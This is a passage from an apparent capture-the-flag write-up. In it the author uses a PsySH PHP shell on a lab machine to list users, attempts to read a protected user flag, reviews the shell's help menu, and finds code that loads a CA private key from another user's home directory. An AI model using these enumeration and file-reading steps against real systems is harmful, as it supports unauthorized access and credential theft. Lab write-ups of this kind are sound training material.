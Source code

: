 ```
     "oslo",
     "professor",
   ]
```
<br> Now we know the users on the box : `berlin`,`dali`,`nairobi`,`oslo` and `professor`.
<br> I found the user flag in `/home/berlin`, however I got permission denied when I tried to read it :
```
scandir("home/berlin")
=> [
     ".",
     "..",
     ".ash_history",
     ".ssh",
     "downloads",
     "node_modules",
     "server.js",
     "user.txt",
   ]
readfile("home/berlin/user.txt")
PHP Warning:  readfile(home/berlin/user.txt): failed to open stream: Permission denied in phar://eval()'d code on line 1
```
<br> Same for `.ssh`, after a lot of failed attempts to get `RCE`, I looked at the `help` menu to see if there's anything helpful:
```
help
  help       Show a list of commands. Type `help [foo]` for information about [foo].                                Aliases: ?  
  ls         List local, instance or class variables, methods and constants.                                        Aliases: list, dir
  dump       Dump an object or primitive.
  doc        Read the documentation for an object, class, constant, method or property.                             Aliases: rtfm, man  
  show       Show the code for an object, class, constant, method or property.
  wtf        Show the backtrace of the most recent exception.                                                       Aliases: last-exception, wtf?
  whereami   Show where you are in the code.
  throw-up   Throw an exception or error out of the Psy Shell.
  timeit     Profiles with a timer.
  trace      Show the current call stack.
  buffer     Show (or clear) the contents of the code input buffer.                                                 Aliases: buf
  clear      Clear the Psy Shell screen.
  edit       Open an external editor. Afterwards, get produced code in input buffer.
  sudo       Evaluate PHP code, bypassing visibility restrictions.
  history    Show the Psy Shell history.                                                                            Aliases: hist
  exit       End the current session and return to caller.                                                          Aliases: quit, q
```
<br> I used `ls` to see what variables are there :
```
ls
Variables: $tokyo
```
<br> There was only one variable called `tokyo` , let's check that variable:
```
show $tokyo
  > 2| class Tokyo {
    3|  private function sign($caCert,$userCsr) {
    4|          $caKey = file_get_contents('/home/nairobi/ca.key');
    5|          $userCert = openssl_csr_sign($userCsr, $caCert, $caKey, 365, ['digest_alg'=>'sha256']);
```